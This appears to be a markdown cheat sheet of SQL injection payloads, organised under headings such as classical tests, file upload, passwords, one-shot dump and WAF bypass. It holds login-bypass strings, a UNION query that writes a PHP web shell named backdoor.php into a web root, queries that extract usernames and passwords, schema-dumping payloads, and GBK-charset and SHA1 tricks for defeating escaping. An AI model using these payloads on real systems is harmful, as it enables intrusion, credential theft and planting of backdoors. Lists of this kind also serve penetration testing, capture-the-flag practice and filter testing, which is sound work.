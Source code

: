 # SQL Tips and Tricks

### Classical Test

```
' or 1=1 LIMIT 1 --
' or 1=1 LIMIT 1 -- -
' or 1=1 LIMIT 1#
'or 1#
' or 1=1 --
' or 1=1 -- -
admin\'-- -
```

### Upload File

```
union all select 1,2,3,4,"<?php echo shell_exec($_GET['cmd']);?>",6 into OUTFILE 'c:/inetpub/wwwroot/backdoor.php'
```

### Passwords

```
uNiOn aLl SeleCt 1,2,3,4,conCat(username,0x3a,password),6 FroM users
uNiOn aLl SeleCt 1,2,3,4,conCat(username,0x3a,password,0x3a,flag),6 FroM users
```

### Dump in one shot

```
\' unIOn seLEct 1,make_set(6,@:=0x0a,(selEct(1)froM(information_schema.columns)whEre@:=make_set(511,@,0x3c6c693e,table_name,column_name)),@)#
```

### Virgule filtree

```
SELECT * FROM (SELECT 1)a JOIN (SELECT 2)b JOIN (SELECT 3)c //%0B pour espace possible
```

### SHA1 Binary

```
# If sha1 is used as a binary string (true) you can use an hash to bypass conditions and inject SQL
# http://pims.tuxfamily.org/blog/2011/04/write-up-sha1-is-fun-plaidctf/
# echo -n 3fDf | openssl sha1 -binary

# GBK Charset
# Possible to bypass addslashes and magic_quotes_gpc using chinese charset
# \x27 == '
# \x5c == \
# All chinese char starts with \xbf
# \xbf\x5c is a chinese char. It means that the antislash added will be interpreted as a part or chinese char and so the quote will be interpreted
# where user.login="\xbf' or 1=1;
```

### Numerical

```
&news_id=1 union select...
```

### WAF Bypass

```
SELECT-1e1FROM`test`
SELECT~1.FROM`test`
SELECT\NFROM`test`
SELECT@^1.FROM`test`
SELECT-id-1.FROM`test`
```
